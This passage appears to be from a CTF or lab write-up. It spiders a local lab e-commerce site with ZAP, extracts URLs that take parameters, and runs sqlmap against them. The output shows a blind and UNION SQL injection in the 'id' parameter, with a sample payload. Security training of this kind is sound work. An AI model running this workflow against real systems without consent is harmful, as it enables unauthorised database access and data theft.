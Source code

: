`Sites: http://192.168.56.127` > `<right-click>` > `Attack` > `Spider...` > `Starting Point: http://192.168.56.127`, `Recurse: enabled` > `Start Scan` > `Export` > `./spider.csv`

`cat ./spider.csv`:
```
Processed,Method,URI,Flags
true,GET,http://192.168.56.127,Seed
true,GET,http://192.168.56.127/robots.txt,Seed
true,GET,http://192.168.56.127/sitemap.xml,Seed

[...]

false,GET,https://github.com/StartBootstrap/startbootstrap-creative/blob/master/LICENSE,Out of Scope
false,GET,https://startbootstrap.com/themes/creative,Out of Scope
true,GET,http://192.168.56.127/admin/ajax.php?action=add_to_cart,Seed
```

`cat ./spider.csv | grep "true" | cut -d ',' -f 3 | grep -E '\?.*=' | tee ./spider_urls.list`:
```
http://192.168.56.127/view_prod.php?id=1 ←
http://192.168.56.127/index.php?page=cart_list
http://192.168.56.127/index.php?page=home
http://192.168.56.127/index.php?page=about
http://192.168.56.127/admin/ajax.php?action=get_cart_count
http://192.168.56.127/admin/ajax.php?action=login2
http://192.168.56.127/admin/ajax.php?action=login
http://192.168.56.127/admin/ajax.php?action=add_to_cart
http://192.168.56.127/admin/login.php?password=ZAP&username=ZAP
http://192.168.56.127/login.php?email=zaproxy%40example.com&password=ZAP
http://192.168.56.127/?_page=1
```

`sqlmap -m ./spider_urls.list`:
```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:47:39 /2024-09-26/

[09:47:39] [INFO] parsing multiple targets list from './spider_urls.list' ←
[09:47:39] [INFO] found a total of 11 targets
[1/11] URL:
GET http://192.168.56.127/view_prod.php?id=1 ←
do you want to test this URL? [Y/n/q]
> Y

[...]

sqlmap identified the following injection point(s) with a total of 92 HTTP(s) requests:
---
Parameter: id (GET) ←
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (4785=4785) THEN 1 ELSE (SELECT 9372 UNION SELECT 7514) END))

    Type: UNION query ←
    Title: Generic UNION query (NULL) - 7 columns
```